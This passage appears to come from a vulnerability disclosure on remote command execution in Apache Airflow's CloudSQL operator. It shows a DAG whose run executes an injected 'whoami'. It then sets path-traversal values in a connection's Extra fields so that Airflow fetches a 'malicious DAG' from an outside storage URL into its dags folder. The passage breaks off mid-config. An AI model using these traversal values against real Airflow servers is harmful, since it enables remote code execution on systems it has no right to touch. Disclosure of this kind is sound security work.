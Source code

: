 ```python
    catchup=False,
    tags=["example"],
) as dag:
    prev_task = None


    task = CloudSQLExecuteQueryOperator(
        gcp_cloudsql_conn_id="aaa",gcp_conn_id="proxy_postgres_tcp",task_id="example_gcp_sql_task_proxy_postgres_tcp" , sql=SQL
    )

# [END howto_operator_cloudsql_query_operators]
```
Enable the** example_gcp_sql_query** DAG corresponding to our **google_test.py** script in the UI management interface, and run.
Click to view the running graph and logs through the Graph menu.
{F2213514}
It can be seen from the log that the victim machine executed the malicious parameter 'whoami' we constructed.
{F2213518}
### 2.3 Other methods for remote command execution through directory traversal
#### 2.3.1 Construct Malicious DAG
Place our malicious dag via Google Cloud Starage at [https://storage.googleapis.com/swordlight/load_my_evil_dag.py](https://storage.googleapis.com/swordlight/load_my_evil_dag.py) .The content is as follows:
```python
from __future__ import annotations

import pendulum

from airflow import DAG
from airflow.decorators import task
from airflow.operators.bash import BashOperator
with DAG(
    dag_id="load_my_evil_dag",
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
    catchup=False,
    schedule=None,
    tags=["example"],
) as dag:
    bash_task = BashOperator(
        task_id="bash_task",
        bash_command='mkdir /tmp/success'
    )
```
The purpose of this script is to create the /tmp/success folder.
#### 2.3.2 Modify our connection Extra attribute named aaa
{F2213523}
Modify the content of the Extra field as follows:
```python
{
  "project_id":"pivotal-gearing-375804",
  "instance":"hellopg",
  "location":"us-central1-b",
  "database_type":"postgres",
  "use_proxy":"True",
  "use_ssl":"False",
  "sql_proxy_use_tcp":"True",
  "sql_proxy_version":"../swordlight/load_my_evil_dag.py?a=",
  "sql_proxy_binary_path":"/../../../opt/airflow/dags/load_my_evil_dag.py",
  "sslcert":"",
```